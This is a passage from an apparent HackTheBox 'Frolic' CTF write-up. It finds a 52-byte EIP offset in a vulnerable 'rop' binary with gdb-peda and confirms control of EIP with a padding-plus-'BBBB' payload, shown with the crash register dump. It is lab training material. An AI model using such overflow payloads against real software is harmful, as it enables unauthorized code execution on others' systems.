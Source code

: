 {% hint style="info" %}
**EIP:** 0x41474141 \('AAGA'\)
{% endhint %}

Once we have the EIP we will search the offset value with the pattern:

```text
gdb-peda$ pattern_offset 0x41474141
1095188801 found at offset: 52
```

{% hint style="info" %}
**Offset:** 52
{% endhint %}

* **Check results**

Now run the binary with a randomized offset and a controlled EIP like 'BBBB'.

```text
❯ python3 -c 'print("A"*52 + 'BBBB')'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
```

And finally run the binary with the payload

```text
gdb-peda$ r AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB
Starting program: /home/mvaliente/KaliShared/ctf/HackTheBox/Frolic/content/rop AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAABBBB

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
EAX: 0x38 ('8')
EBX: 0xffffcd50 --> 0x2 
ECX: 0x0 
EDX: 0x0 
ESI: 0xf7faa000 --> 0x1e4d6c 
EDI: 0xf7faa000 --> 0x1e4d6c 
EBP: 0x41414141 ('AAAA')
ESP: 0xffffcd20 --> 0xffffd000 ("ared/ctf/HackTheBox/Frolic/content/rop")
EIP: 0x42424242 ('BBBB')
EFLAGS: 0x10282 (carry parity adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x42424242
[------------------------------------stack-------------------------------------]
0000| 0xffffcd20 --> 0xffffd000 ("ared/ctf/HackTheBox/Frolic/content/rop")
0004| 0xffffcd24 --> 0xffffcdf4 --> 0xffffcfea ("/home/mvaliente/KaliShared/ctf/HackTheBox/Frolic/content/rop")
0008| 0xffffcd28 --> 0xffffce00 --> 0xffffd060 ("COLORFGBG=15;0")
0012| 0xffffcd2c --> 0x8048561 (<__libc_csu_init+33>:   lea    eax,[ebx-0xf8])
0016| 0xffffcd30 --> 0xffffcd50 --> 0x2 
0020| 0xffffcd34 --> 0x0 
0024| 0xffffcd38 --> 0x0 
0028| 0xffffcd3c --> 0xf7de3e46 (<__libc_start_main+262>:       add    esp,0x10)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x42424242 in ?? ()
gdb-peda$ 

```
